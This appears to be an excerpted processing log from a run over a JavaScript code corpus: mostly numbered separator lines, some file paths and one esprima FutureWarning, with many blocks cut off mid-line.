=========================================17699===========================================
=========================================17700===========================================
=========================================17701===========================================
=========================================17702===========================================
=========================================17703===========================================
=========================================17704===========================================
=========================================17705===========================================
==========

=========================================17784===========================================
=========================================17785===========================================
=========================================17786===========================================
=========================================17787===========================================
=========================================17788===========================================
=========================================17789===========================================
=========================================17790===========================================
=========================================17791===========================================
=========================================17792===========================================
=========================================17793===========================================
=========================================17794===========================================
==========

=========================================17876===========================================
=========================================17877===========================================
=========================================17878===========================================
=========================================17879===========================================
=========================================17880===========================================
=========================================17881===========================================
=========================================17882===========================================
=========================================17883===========================================
=========================================17884===========================================
=========================================17885===========================================
=========================================17886===========================================
==========

=========================================17965===========================================
=========================================17966===========================================
=========================================17967===========================================
=========================================17968===========================================
=========================================17969===========================================
=========================================17970===========================================
=========================================17971===========================================
=========================================17972===========================================
=========================================17973===========================================
=========================================17974===========================================
=========================================17975===========================================
==========

=========================================18060===========================================
=========================================18061===========================================
data/mchyzer/openTwoFactor/twoFactor/webapp/assets/dojo/dojox/dtl/filter/strings.js.uncompressed.js
=========================================18062===========================================
=========================================18063===========================================
=========================================18064===========================================
=========================================18065===========================================
=========================================18066===========================================
=========================================18067===========================================
=========================================18068===========================================
=========================================18069===========================================


=========================================18149===========================================
=========================================18150===========================================
=========================================18151===========================================
=========================================18152===========================================
=========================================18153===========================================
=========================================18154===========================================
=========================================18155===========================================
data/rancherio/ui/app/machine/model.js
=========================================18156===========================================
=========================================18157===========================================
=========================================18158===========================================
=========================================18159===============

=========================================18235===========================================
=========================================18236===========================================
=========================================18237===========================================
=========================================18238===========================================
=========================================18239===========================================
=========================================18240===========================================
=========================================18241===========================================
=========================================18242===========================================
=========================================18243===========================================
=========================================18244===========================================
=========================================18245===========================================
==========

=========================================18322===========================================
=========================================18323===========================================
=========================================18324===========================================
=========================================18325===========================================
=========================================18326===========================================
=========================================18327===========================================
=========================================18328===========================================
=========================================18329===========================================
=========================================18330===========================================
=========================================18331===========================================
=========================================18332===========================================
==========

C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible nested set at position 20
  return re.compile(pattern, pyflags)


=========================================18362===========================================
=========================================18363===========================================
=========================================18364===========================================
=========================================18365===========================================
=========================================18366===========================================
=========================================18367===========================================
data/forcedotcom/aura/aura-components/src/main/components/ui/scrollerLib/browserSupport.js
=========================================18368===========================================
=========================================18369===========================================
=========================================18370===========================================
=========================================18371===========================================
=========

=========================================18448===========================================
=========================================18449===========================================
=========================================18450===========================================
=========================================18451===========================================
=========================================18452===========================================
=========================================18453===========================================
=========================================18454===========================================
=========================================18455===========================================
=========================================18456===========================================
=========================================18457===========================================
=========================================18458===========================================
data/fholm

=========================================18535===========================================
=========================================18536===========================================
=========================================18537===========================================
=========================================18538===========================================
data/projectfedena/project_fedena/public/javascripts/fckeditor/editor/_source/internals/fckcommands.js
=========================================18539===========================================
=========================================18540===========================================
=========================================18541===========================================
=========================================18542===========================================
=========================================18543===========================================
=========================================18544=========================================

=========================================18621===========================================
=========================================18622===========================================
=========================================18623===========================================
=========================================18624===========================================
=========================================18625===========================================
=========================================18626===========================================
=========================================18627===========================================
=========================================18628===========================================
=========================================18629===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/sdk/Word/Editor/Table.js
=========================================18630===========================================
========================

=========================================18708===========================================
=========================================18709===========================================
=========================================18710===========================================
=========================================18711===========================================
=========================================18712===========================================
=========================================18713===========================================
=========================================18714===========================================
=========================================18715===========================================
=========================================18716===========================================
=========================================18717===========================================
=========================================18718===========================================
==========

=========================================18795===========================================
=========================================18796===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/format/lang/pt-br.js
=========================================18797===========================================
=========================================18798===========================================
=========================================18799===========================================
=========================================18800===========================================
=========================================18801===========================================
=========================================18802===========================================
=========================================18803===========================================
=========================================18804===========================================
=======================

=========================================18883===========================================
=========================================18884===========================================
=========================================18885===========================================
data/google/traceur-compiler/test/feature/Annotations/FunctionInsideClassGetter.module.js
=========================================18886===========================================
=========================================18887===========================================
=========================================18888===========================================
=========================================18889===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/link/lang/fi.js
=========================================18890===========================================
data/IonDen/ion.sound/js/ion.sound.js
=========================================18891==================================

=========================================18974===========================================
=========================================18975===========================================
=========================================18976===========================================
=========================================18977===========================================
=========================================18978===========================================
=========================================18979===========================================
=========================================18980===========================================
=========================================18981===========================================
=========================================18982===========================================
=========================================18983===========================================
=========================================18984===========================================
==========

=========================================19063===========================================
=========================================19064===========================================
=========================================19065===========================================
=========================================19066===========================================
=========================================19067===========================================
=========================================19068===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/indent/lang/nb.js
=========================================19069===========================================
=========================================19070===========================================
=========================================19071===========================================
=========================================19072===========================================
data/OfficeDev/TrainingCon

=========================================19144===========================================
=========================================19145===========================================
=========================================19146===========================================
=========================================19147===========================================
=========================================19148===========================================
=========================================19149===========================================
=========================================19150===========================================
=========================================19151===========================================
=========================================19152===========================================
=========================================19153===========================================
=========================================19154===========================================
==========

=========================================19231===========================================
=========================================19232===========================================
=========================================19233===========================================
=========================================19234===========================================
=========================================19235===========================================
=========================================19236===========================================
=========================================19237===========================================
=========================================19238===========================================
=========================================19239===========================================
=========================================19240===========================================
data/STRML/JSXHint/test/fixtures/jshint_parity.js
=========================================19241====

data/jxcore/jxcore/deps/mozjs/src/jit-test/tests/TypedObject/prototypes.js
=========================================19318===========================================
=========================================19319===========================================
=========================================19320===========================================
=========================================19321===========================================
=========================================19322===========================================
=========================================19323===========================================
=========================================19324===========================================
=========================================19325===========================================
=========================================19326===========================================
=========================================19327===========================================
data/sca-/sails-ckeditor-

=========================================19400===========================================
=========================================19401===========================================
=========================================19402===========================================
=========================================19403===========================================
=========================================19404===========================================
=========================================19405===========================================
=========================================19406===========================================
=========================================19407===========================================
=========================================19408===========================================
=========================================19409===========================================
=========================================19410===========================================
==========

=========================================19494===========================================
=========================================19495===========================================
=========================================19496===========================================
=========================================19497===========================================
data/jsdelivr/jsdelivr/files/ckeditor/4.3.0/plugins/contextmenu/lang/zh.js
=========================================19498===========================================
=========================================19499===========================================
=========================================19500===========================================
=========================================19501===========================================
=========================================19502===========================================
=========================================19503===========================================
=========================

=========================================19584===========================================
=========================================19585===========================================
=========================================19586===========================================
=========================================19587===========================================
=========================================19588===========================================
=========================================19589===========================================
=========================================19590===========================================
=========================================19591===========================================
data/thinkgem/jeesite/src/main/webapp/act/rest/libs/ext-2.0.2/ext-core-debug.js
=========================================19592===========================================
=========================================19593===========================================
====================

=========================================19673===========================================
=========================================19674===========================================
=========================================19675===========================================
=========================================19676===========================================
=========================================19677===========================================
=========================================19678===========================================
=========================================19679===========================================
=========================================19680===========================================
=========================================19681===========================================
=========================================19682===========================================
=========================================19683===========================================
data/babel

data/beefproject/beef/modules/exploits/wanem_command_execution/command.js
=========================================19762===========================================
=========================================19763===========================================
data/unknown/62422.js
=========================================19764===========================================
=========================================19765===========================================
=========================================19766===========================================
=========================================19767===========================================
=========================================19768===========================================
=========================================19769===========================================
=========================================19770===========================================
=========================================19771===========================================
====

=========================================19852===========================================
=========================================19853===========================================
=========================================19854===========================================
=========================================19855===========================================
=========================================19856===========================================
=========================================19857===========================================
=========================================19858===========================================
=========================================19859===========================================
=========================================19860===========================================
=========================================19861===========================================
=========================================19862===========================================
==========

=========================================19942===========================================
=========================================19943===========================================
=========================================19944===========================================
=========================================19945===========================================
=========================================19946===========================================
=========================================19947===========================================
=========================================19948===========================================
=========================================19949===========================================
=========================================19950===========================================
=========================================19951===========================================
=========================================19952===========================================
data/sca-/

=========================================20031===========================================
=========================================20032===========================================
=========================================20033===========================================
data/unknown/87857.js
=========================================20034===========================================
=========================================20035===========================================
=========================================20036===========================================
=========================================20037===========================================
=========================================20038===========================================
=========================================20039===========================================
=========================================20040===========================================
=========================================20041================================

=========================================20120===========================================
=========================================20121===========================================
=========================================20122===========================================
=========================================20123===========================================
=========================================20124===========================================
=========================================20125===========================================
=========================================20126===========================================
=========================================20127===========================================
=========================================20128===========================================
=========================================20129===========================================
=========================================20130===========================================
data/sca-/

=========================================20210===========================================
=========================================20211===========================================
=========================================20212===========================================
=========================================20213===========================================
=========================================20214===========================================
=========================================20215===========================================
=========================================20216===========================================
=========================================20217===========================================
=========================================20218===========================================
=========================================20219===========================================
=========================================20220===========================================
data/unkno

=========================================20294===========================================
=========================================20295===========================================
data/rthor/isjs/jquery/src/nonroot.js
=========================================20296===========================================
=========================================20297===========================================
=========================================20298===========================================
=========================================20299===========================================
=========================================20300===========================================
=========================================20301===========================================
=========================================20302===========================================
=========================================20303===========================================
=========================================20304================

=========================================20387===========================================
=========================================20388===========================================
=========================================20389===========================================
=========================================20390===========================================
=========================================20391===========================================
=========================================20392===========================================
=========================================20393===========================================
=========================================20394===========================================
=========================================20395===========================================
=========================================20396===========================================
=========================================20397===========================================
==========

=========================================20474===========================================
=========================================20475===========================================
=========================================20476===========================================
=========================================20477===========================================
=========================================20478===========================================
=========================================20479===========================================
=========================================20480===========================================
=========================================20481===========================================
=========================================20482===========================================
=========================================20483===========================================
=========================================20484===========================================
==========

data/clintjhill/ember-parse-adapter/tests/dummy/app/models/stripe.js
=========================================20566===========================================
=========================================20567===========================================
=========================================20568===========================================
=========================================20569===========================================
=========================================20570===========================================
=========================================20571===========================================
=========================================20572===========================================
=========================================20573===========================================
=========================================20574===========================================
=========================================20575===========================================
===============================

=========================================20659===========================================
=========================================20660===========================================
=========================================20661===========================================
=========================================20662===========================================
=========================================20663===========================================
=========================================20664===========================================
=========================================20665===========================================
=========================================20666===========================================
data/burkeholland/kendo-flippable/app/components/kendo-ui-core/src/js/cultures/kendo.culture.it-IT.js
=========================================20667===========================================
=========================================20668==========================================

=========================================20746===========================================
=========================================20747===========================================
=========================================20748===========================================
=========================================20749===========================================
=========================================20750===========================================
=========================================20751===========================================
=========================================20752===========================================
=========================================20753===========================================
=========================================20754===========================================
=========================================20755===========================================
=========================================20756===========================================
==========

=========================================20833===========================================
=========================================20834===========================================
=========================================20835===========================================
=========================================20836===========================================
=========================================20837===========================================
=========================================20838===========================================
=========================================20839===========================================
=========================================20840===========================================
=========================================20841===========================================
=========================================20842===========================================
=========================================20843===========================================
==========

=========================================20923===========================================
=========================================20924===========================================
=========================================20925===========================================
=========================================20926===========================================
=========================================20927===========================================
=========================================20928===========================================
=========================================20929===========================================
=========================================20930===========================================
=========================================20931===========================================
=========================================20932===========================================
=========================================20933===========================================
data/starz

=========================================21009===========================================
=========================================21010===========================================
=========================================21011===========================================
=========================================21012===========================================
=========================================21013===========================================
=========================================21014===========================================
=========================================21015===========================================
=========================================21016===========================================
=========================================21017===========================================
=========================================21018===========================================
=========================================21019===========================================
==========

=========================================21099===========================================
=========================================21100===========================================
=========================================21101===========================================
=========================================21102===========================================
=========================================21103===========================================
=========================================21104===========================================
=========================================21105===========================================
=========================================21106===========================================
=========================================21107===========================================
=========================================21108===========================================
=========================================21109===========================================
==========

=========================================21191===========================================
=========================================21192===========================================
=========================================21193===========================================
=========================================21194===========================================
=========================================21195===========================================
=========================================21196===========================================
=========================================21197===========================================
=========================================21198===========================================
=========================================21199===========================================
=========================================21200===========================================
=========================================21201===========================================
==========

=========================================21281===========================================
=========================================21282===========================================
data/fooplugins/FooTable/js/footable.plugin.template.js
=========================================21283===========================================
=========================================21284===========================================
=========================================21285===========================================
=========================================21286===========================================
=========================================21287===========================================
=========================================21288===========================================
=========================================21289===========================================
=========================================21290===========================================
=========================================212

=========================================21370===========================================
=========================================21371===========================================
=========================================21372===========================================
data/jdickie/TEILiteEditor/plugins/ckeditor/_source/plugins/stylescombo/plugin.js
=========================================21373===========================================
=========================================21374===========================================
=========================================21375===========================================
=========================================21376===========================================
data/unknown/45717.js
=========================================21377===========================================
=========================================21378===========================================
=========================================21379========================================

=========================================21459===========================================
=========================================21460===========================================
=========================================21461===========================================
=========================================21462===========================================
=========================================21463===========================================
data/OpenACD/OpenACD/priv/www/admin/lang/nls/uk/freeswitch_media_manager.js
=========================================21464===========================================
data/unknown/22244.js
=========================================21465===========================================
=========================================21466===========================================
=========================================21467===========================================
=========================================21468===========================================
==

=========================================21555===========================================
=========================================21556===========================================
=========================================21557===========================================
=========================================21558===========================================
=========================================21559===========================================
=========================================21560===========================================
=========================================21561===========================================
=========================================21562===========================================
=========================================21563===========================================
=========================================21564===========================================
=========================================21565===========================================
==========

=========================================21727===========================================
=========================================21728===========================================
=========================================21729===========================================
=========================================21730===========================================
=========================================21731===========================================
=========================================21732===========================================
=========================================21733===========================================
=========================================21734===========================================
=========================================21735===========================================
=========================================21736===========================================
=========================================21737===========================================
==========

=========================================21817===========================================
=========================================21818===========================================
=========================================21819===========================================
=========================================21820===========================================
=========================================21821===========================================
data/machty/emblem.js/tests/integration/bind-attr-test.js
=========================================21822===========================================
=========================================21823===========================================
=========================================21824===========================================
=========================================21825===========================================
=========================================21826===========================================
=========================================2

=========================================21901===========================================
=========================================21902===========================================
=========================================21903===========================================
=========================================21904===========================================
=========================================21905===========================================
=========================================21906===========================================
=========================================21907===========================================
=========================================21908===========================================
=========================================21909===========================================
=========================================21910===========================================
=========================================21911===========================================
==========

=========================================21990===========================================
=========================================21991===========================================
=========================================21992===========================================
=========================================21993===========================================
=========================================21994===========================================
=========================================21995===========================================
=========================================21996===========================================
data/thomasboyt/ember-firebase-adapter/lib/wrapper/start.js
=========================================21997===========================================
=========================================21998===========================================
=========================================21999===========================================
========================================

=========================================22080===========================================
=========================================22081===========================================
=========================================22082===========================================
data/cdnjs/cdnjs/ajax/libs/ammaps/3.10.0/maps/js/denmarkHigh.js
=========================================22083===========================================
=========================================22084===========================================
=========================================22085===========================================
=========================================22086===========================================
=========================================22087===========================================
=========================================22088===========================================
=========================================22089===========================================
====================================

=========================================22171===========================================
=========================================22172===========================================
=========================================22173===========================================
=========================================22174===========================================
=========================================22175===========================================
=========================================22176===========================================
=========================================22177===========================================
=========================================22178===========================================
=========================================22179===========================================
data/gpeipman/Visual-Studio-Experiments/Experiments.CropImage/Experiments.CropImage/Scripts/jquery.Jcrop.js
=========================================22180====================================

=========================================22255===========================================
=========================================22256===========================================
=========================================22257===========================================
=========================================22258===========================================
=========================================22259===========================================
=========================================22260===========================================
=========================================22261===========================================
=========================================22262===========================================
=========================================22263===========================================
=========================================22264===========================================
=========================================22265===========================================
==========

=========================================22344===========================================
=========================================22345===========================================
=========================================22346===========================================
=========================================22347===========================================
=========================================22348===========================================
=========================================22349===========================================
=========================================22350===========================================
=========================================22351===========================================
=========================================22352===========================================
=========================================22353===========================================
=========================================22354===========================================
==========

=========================================22433===========================================
=========================================22434===========================================
=========================================22435===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/maximize/lang/pt-br.js
=========================================22436===========================================
=========================================22437===========================================
=========================================22438===========================================
=========================================22439===========================================
=========================================22440===========================================
=========================================22441===========================================
=========================================22442===========================================
=====================

=========================================22523===========================================
=========================================22524===========================================
=========================================22525===========================================
=========================================22526===========================================
=========================================22527===========================================
=========================================22528===========================================
=========================================22529===========================================
=========================================22530===========================================
=========================================22531===========================================
=========================================22532===========================================
=========================================22533===========================================
data/sgass

=========================================22611===========================================
=========================================22612===========================================
=========================================22613===========================================
=========================================22614===========================================
=========================================22615===========================================
=========================================22616===========================================
=========================================22617===========================================
=========================================22618===========================================
=========================================22619===========================================
=========================================22620===========================================
=========================================22621===========================================
data/quick

data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/apps/documenteditor/main/app/component/MenuDimensionPicker.js
=========================================22702===========================================
=========================================22703===========================================
=========================================22704===========================================
=========================================22705===========================================
=========================================22706===========================================
=========================================22707===========================================
=========================================22708===========================================
data/Swimlane/angular-systemjs-seed/src/common/components/modal.js
=========================================22709===========================================
=========================================22710===========================================
==========

=========================================22786===========================================
=========================================22787===========================================
=========================================22788===========================================
=========================================22789===========================================
=========================================22790===========================================
=========================================22791===========================================
=========================================22792===========================================
=========================================22793===========================================
=========================================22794===========================================
=========================================22795===========================================
=========================================22796===========================================
==========

=========================================22874===========================================
=========================================22875===========================================
=========================================22876===========================================
=========================================22877===========================================
=========================================22878===========================================
=========================================22879===========================================
=========================================22880===========================================
=========================================22881===========================================
=========================================22882===========================================
=========================================22883===========================================
=========================================22884===========================================
==========

=========================================22966===========================================
=========================================22967===========================================
=========================================22968===========================================
=========================================22969===========================================
=========================================22970===========================================
=========================================22971===========================================
=========================================22972===========================================
=========================================22973===========================================
=========================================22974===========================================
=========================================22975===========================================
=========================================22976===========================================
==========

=========================================23056===========================================
=========================================23057===========================================
=========================================23058===========================================
=========================================23059===========================================
=========================================23060===========================================
=========================================23061===========================================
=========================================23062===========================================
=========================================23063===========================================
=========================================23064===========================================
=========================================23065===========================================
=========================================23066===========================================
==========

=========================================23147===========================================
=========================================23148===========================================
=========================================23149===========================================
=========================================23150===========================================
=========================================23151===========================================
=========================================23152===========================================
=========================================23153===========================================
=========================================23154===========================================
=========================================23155===========================================
=========================================23156===========================================
=========================================23157===========================================
==========

=========================================23233===========================================
=========================================23234===========================================
=========================================23235===========================================
=========================================23236===========================================
=========================================23237===========================================
=========================================23238===========================================
=========================================23239===========================================
=========================================23240===========================================
=========================================23241===========================================
=========================================23242===========================================
=========================================23243===========================================
==========

=========================================23321===========================================
data/manuelnelson/BoilerPlateMVC/src/Application.Web/App/Todo/Edit/Edit-controller.js
=========================================23322===========================================
=========================================23323===========================================
=========================================23324===========================================
=========================================23325===========================================
=========================================23326===========================================
=========================================23327===========================================
=========================================23328===========================================
=========================================23329===========================================
=========================================23330===========================================
==============

=========================================23414===========================================
=========================================23415===========================================
=========================================23416===========================================
=========================================23417===========================================
=========================================23418===========================================
=========================================23419===========================================
=========================================23420===========================================
=========================================23421===========================================
=========================================23422===========================================
=========================================23423===========================================
=========================================23424===========================================
==========

=========================================23505===========================================
=========================================23506===========================================
=========================================23507===========================================
=========================================23508===========================================
=========================================23509===========================================
=========================================23510===========================================
=========================================23511===========================================
=========================================23512===========================================
=========================================23513===========================================
=========================================23514===========================================
=========================================23515===========================================
==========

=========================================23597===========================================
=========================================23598===========================================
=========================================23599===========================================
=========================================23600===========================================
data/unknown/38318.js
=========================================23601===========================================
=========================================23602===========================================
=========================================23603===========================================
=========================================23604===========================================
=========================================23605===========================================
=========================================23606===========================================
=========================================23607================================

=========================================23691===========================================
=========================================23692===========================================
data/joyent/node/deps/v8/test/mjsunit/runtime-gen/stringreplaceglobalregexpwithstring.js
=========================================23693===========================================
=========================================23694===========================================
=========================================23695===========================================
=========================================23696===========================================
=========================================23697===========================================
=========================================23698===========================================
=========================================23699===========================================
=========================================23700===========================================
===========

=========================================23784===========================================
=========================================23785===========================================
=========================================23786===========================================
=========================================23787===========================================
=========================================23788===========================================
=========================================23789===========================================
=========================================23790===========================================
=========================================23791===========================================
=========================================23792===========================================
data/moudy/agenda-ui/app/app/serializers/application.js
=========================================23793===========================================
=========================================237

=========================================23873===========================================
=========================================23874===========================================
=========================================23875===========================================
=========================================23876===========================================
=========================================23877===========================================
=========================================23878===========================================
=========================================23879===========================================
=========================================23880===========================================
=========================================23881===========================================
data/mozilla/rhino/testsrc/tests/e4x/extensions/regress-352846-03.js
=========================================23882===========================================
data/sca-/sails-ckeditor-sample

=========================================23961===========================================
=========================================23962===========================================
=========================================23963===========================================
=========================================23964===========================================
=========================================23965===========================================
=========================================23966===========================================
=========================================23967===========================================
=========================================23968===========================================
data/thinkdry/blank-application/public/ckeditor/_source/plugins/pastetext/plugin.js
=========================================23969===========================================
=========================================23970===========================================
================

=========================================24050===========================================
=========================================24051===========================================
=========================================24052===========================================
=========================================24053===========================================
=========================================24054===========================================
=========================================24055===========================================
=========================================24056===========================================
=========================================24057===========================================
=========================================24058===========================================
=========================================24059===========================================
=========================================24060===========================================
==========

=========================================24140===========================================
=========================================24141===========================================
=========================================24142===========================================
data/ONLYOFFICE/ONLYOFFICE-OnlineEditors/OfficeWeb/apps/common/mobile/lib/component/RepeatableButton.js
=========================================24143===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/sourcearea/lang/gl.js
=========================================24144===========================================
=========================================24145===========================================
=========================================24146===========================================
=========================================24147===========================================
=========================================24148===========================================
========

=========================================24225===========================================
data/moment/moment/src/test/locale/pt-br.js
=========================================24226===========================================
=========================================24227===========================================
=========================================24228===========================================
=========================================24229===========================================
=========================================24230===========================================
=========================================24231===========================================
data/cowbell/sharedrop/app/controllers/index.js
=========================================24232===========================================
=========================================24233===========================================
=========================================24234===========================================
========

=========================================24309===========================================
=========================================24310===========================================
=========================================24311===========================================
=========================================24312===========================================
=========================================24313===========================================
=========================================24314===========================================
=========================================24315===========================================
=========================================24316===========================================
=========================================24317===========================================
=========================================24318===========================================
=========================================24319===========================================
==========

=========================================24395===========================================
=========================================24396===========================================
=========================================24397===========================================
=========================================24398===========================================
=========================================24399===========================================
=========================================24400===========================================
=========================================24401===========================================
=========================================24402===========================================
=========================================24403===========================================
=========================================24404===========================================
=========================================24405===========================================
==========

=========================================24485===========================================
=========================================24486===========================================
=========================================24487===========================================
=========================================24488===========================================
=========================================24489===========================================
=========================================24490===========================================
=========================================24491===========================================
=========================================24492===========================================
=========================================24493===========================================
=========================================24494===========================================
=========================================24495===========================================
==========

=========================================24572===========================================
=========================================24573===========================================
=========================================24574===========================================
=========================================24575===========================================
=========================================24576===========================================
=========================================24577===========================================
=========================================24578===========================================
=========================================24579===========================================
=========================================24580===========================================
=========================================24581===========================================
=========================================24582===========================================
==========

=========================================24666===========================================
=========================================24667===========================================
=========================================24668===========================================
=========================================24669===========================================
=========================================24670===========================================
=========================================24671===========================================
=========================================24672===========================================
=========================================24673===========================================
=========================================24674===========================================
=========================================24675===========================================
data/fholm/IronJS/Src/Tests/ietestcenter/chapter07/7.6/7.6.1/7.6.1-1-9.js
==========================

=========================================24756===========================================
=========================================24757===========================================
=========================================24758===========================================
=========================================24759===========================================
=========================================24760===========================================
=========================================24761===========================================
=========================================24762===========================================
=========================================24763===========================================
=========================================24764===========================================
=========================================24765===========================================
=========================================24766===========================================
==========

=========================================24846===========================================
=========================================24847===========================================
=========================================24848===========================================
=========================================24849===========================================
=========================================24850===========================================
=========================================24851===========================================
=========================================24852===========================================
=========================================24853===========================================
=========================================24854===========================================
=========================================24855===========================================
=========================================24856===========================================
==========

=========================================24937===========================================
=========================================24938===========================================
=========================================24939===========================================
=========================================24940===========================================
=========================================24941===========================================
=========================================24942===========================================
=========================================24943===========================================
data/projectfedena/project_fedena/public/javascripts/fckeditor/editor/_source/internals/fckxhtml_gecko.js
=========================================24944===========================================
=========================================24945===========================================
=========================================24946======================================

=========================================25024===========================================
=========================================25025===========================================
=========================================25026===========================================
=========================================25027===========================================
=========================================25028===========================================
=========================================25029===========================================
=========================================25030===========================================
=========================================25031===========================================
=========================================25032===========================================
=========================================25033===========================================
=========================================25034===========================================
==========

=========================================25121===========================================
=========================================25122===========================================
=========================================25123===========================================
=========================================25124===========================================
=========================================25125===========================================
=========================================25126===========================================
=========================================25127===========================================
=========================================25128===========================================
=========================================25129===========================================
=========================================25130===========================================
=========================================25131===========================================
==========

=========================================25209===========================================
=========================================25210===========================================
=========================================25211===========================================
=========================================25212===========================================
=========================================25213===========================================
=========================================25214===========================================
=========================================25215===========================================
=========================================25216===========================================
=========================================25217===========================================
=========================================25218===========================================
=========================================25219===========================================
==========

=========================================25295===========================================
=========================================25296===========================================
=========================================25297===========================================
=========================================25298===========================================
=========================================25299===========================================
=========================================25300===========================================
=========================================25301===========================================
data/operasoftware/dragonfly/src/lib/stp_0_wrapper.js
=========================================25302===========================================
=========================================25303===========================================
=========================================25304===========================================
=========================================25305

=========================================25381===========================================
=========================================25382===========================================
=========================================25383===========================================
=========================================25384===========================================
=========================================25385===========================================
=========================================25386===========================================
=========================================25387===========================================
=========================================25388===========================================
=========================================25389===========================================
=========================================25390===========================================
=========================================25391===========================================
data/sca-/

=========================================25473===========================================
=========================================25474===========================================
=========================================25475===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/stylescombo/lang/sq.js
=========================================25476===========================================
=========================================25477===========================================
=========================================25478===========================================
=========================================25479===========================================
=========================================25480===========================================
=========================================25481===========================================
=========================================25482===========================================
=====================

=========================================25560===========================================
=========================================25561===========================================
=========================================25562===========================================
=========================================25563===========================================
=========================================25564===========================================
=========================================25565===========================================
=========================================25566===========================================
=========================================25567===========================================
=========================================25568===========================================
=========================================25569===========================================
=========================================25570===========================================
data/opera

=========================================25648===========================================
=========================================25649===========================================
=========================================25650===========================================
=========================================25651===========================================
=========================================25652===========================================
=========================================25653===========================================
=========================================25654===========================================
=========================================25655===========================================
=========================================25656===========================================
=========================================25657===========================================
=========================================25658===========================================
==========

=========================================25736===========================================
=========================================25737===========================================
=========================================25738===========================================
data/jxcore/jxcore/deps/mozjs/src/tests/js1_8/regress/regress-459185.js
=========================================25739===========================================
=========================================25740===========================================
=========================================25741===========================================
=========================================25742===========================================
=========================================25743===========================================
=========================================25744===========================================
=========================================25745===========================================
============================

=========================================25833===========================================
=========================================25834===========================================
=========================================25835===========================================
=========================================25836===========================================
=========================================25837===========================================
=========================================25838===========================================
=========================================25839===========================================
=========================================25840===========================================
=========================================25841===========================================
=========================================25842===========================================
=========================================25843===========================================
==========

=========================================25921===========================================
=========================================25922===========================================
=========================================25923===========================================
=========================================25924===========================================
=========================================25925===========================================
=========================================25926===========================================
data/TimGeyssens/BundlingAndMinificationForTheMasses/TestSiteV7/Umbraco/lib/markdown/markdown.editor.js
=========================================25927===========================================
=========================================25928===========================================
=========================================25929===========================================
=========================================25930========================================

=========================================26013===========================================
=========================================26014===========================================
=========================================26015===========================================
=========================================26016===========================================
=========================================26017===========================================
=========================================26018===========================================
=========================================26019===========================================
=========================================26020===========================================
=========================================26021===========================================
=========================================26022===========================================
data/iojs/io.js/deps/v8/test/mjsunit/keyed-load-with-string-key.js
=================================

=========================================26100===========================================
=========================================26101===========================================
=========================================26102===========================================
=========================================26103===========================================
=========================================26104===========================================
=========================================26105===========================================
=========================================26106===========================================
=========================================26107===========================================
=========================================26108===========================================
=========================================26109===========================================
data/google/traceur-compiler/test/feature/Number/isSafeInteger.module.js
===========================

=========================================26193===========================================
=========================================26194===========================================
=========================================26195===========================================
data/ractivejs/ractive/src/Ractive/prototype/insert.js
=========================================26196===========================================
=========================================26197===========================================
=========================================26198===========================================
=========================================26199===========================================
=========================================26200===========================================
=========================================26201===========================================
=========================================26202===========================================
=========================================2620

=========================================26370===========================================
=========================================26371===========================================
data/unknown/31709.js
=========================================26372===========================================
=========================================26373===========================================
=========================================26374===========================================
=========================================26375===========================================
=========================================26376===========================================
=========================================26377===========================================
=========================================26378===========================================
=========================================26379===========================================
=========================================26380================================

=========================================26460===========================================
=========================================26461===========================================
=========================================26462===========================================
data/fnakstad/angular-client-side-auth/server/models/User.js
=========================================26463===========================================
=========================================26464===========================================
=========================================26465===========================================
=========================================26466===========================================
=========================================26467===========================================
=========================================26468===========================================
=========================================26469===========================================
=======================================

=========================================26550===========================================
=========================================26551===========================================
=========================================26552===========================================
=========================================26553===========================================
=========================================26554===========================================
=========================================26555===========================================
=========================================26556===========================================
=========================================26557===========================================
=========================================26558===========================================
=========================================26559===========================================
=========================================26560===========================================
==========

=========================================26640===========================================
=========================================26641===========================================
=========================================26642===========================================
=========================================26643===========================================
=========================================26644===========================================
=========================================26645===========================================
=========================================26646===========================================
=========================================26647===========================================
=========================================26648===========================================
=========================================26649===========================================
=========================================26650===========================================
==========

=========================================26731===========================================
=========================================26732===========================================
=========================================26733===========================================
=========================================26734===========================================
=========================================26735===========================================
=========================================26736===========================================
=========================================26737===========================================
=========================================26738===========================================
=========================================26739===========================================
=========================================26740===========================================
=========================================26741===========================================
data/fholm

=========================================26820===========================================
=========================================26821===========================================
=========================================26822===========================================
=========================================26823===========================================
=========================================26824===========================================
=========================================26825===========================================
=========================================26826===========================================
=========================================26827===========================================
=========================================26828===========================================
=========================================26829===========================================
=========================================26830===========================================
data/cdnjs

=========================================26910===========================================
=========================================26911===========================================
=========================================26912===========================================
=========================================26913===========================================
=========================================26914===========================================
=========================================26915===========================================
data/sproutit/sproutcore-buildtools/jsdoc/test/lend.js
=========================================26916===========================================
=========================================26917===========================================
=========================================26918===========================================
=========================================26919===========================================
=========================================2692

=========================================26998===========================================
=========================================26999===========================================
=========================================27000===========================================
=========================================27001===========================================
=========================================27002===========================================
=========================================27003===========================================
=========================================27004===========================================
=========================================27005===========================================
=========================================27006===========================================
=========================================27007===========================================
=========================================27008===========================================
==========

=========================================27090===========================================
=========================================27091===========================================
=========================================27092===========================================
=========================================27093===========================================
=========================================27094===========================================
=========================================27095===========================================
=========================================27096===========================================
=========================================27097===========================================
data/unknown/49603.js
=========================================27098===========================================
=========================================27099===========================================
=========================================27100================================

=========================================27178===========================================
=========================================27179===========================================
=========================================27180===========================================
=========================================27181===========================================
=========================================27182===========================================
=========================================27183===========================================
=========================================27184===========================================
=========================================27185===========================================
=========================================27186===========================================
=========================================27187===========================================
=========================================27188===========================================
==========

=========================================27271===========================================
=========================================27272===========================================
=========================================27273===========================================
=========================================27274===========================================
=========================================27275===========================================
=========================================27276===========================================
=========================================27277===========================================
=========================================27278===========================================
=========================================27279===========================================
=========================================27280===========================================
=========================================27281===========================================
==========

=========================================27359===========================================
=========================================27360===========================================
=========================================27361===========================================
=========================================27362===========================================
=========================================27363===========================================
=========================================27364===========================================
=========================================27365===========================================
=========================================27366===========================================
=========================================27367===========================================
=========================================27368===========================================
=========================================27369===========================================
==========

=========================================27453===========================================
=========================================27454===========================================
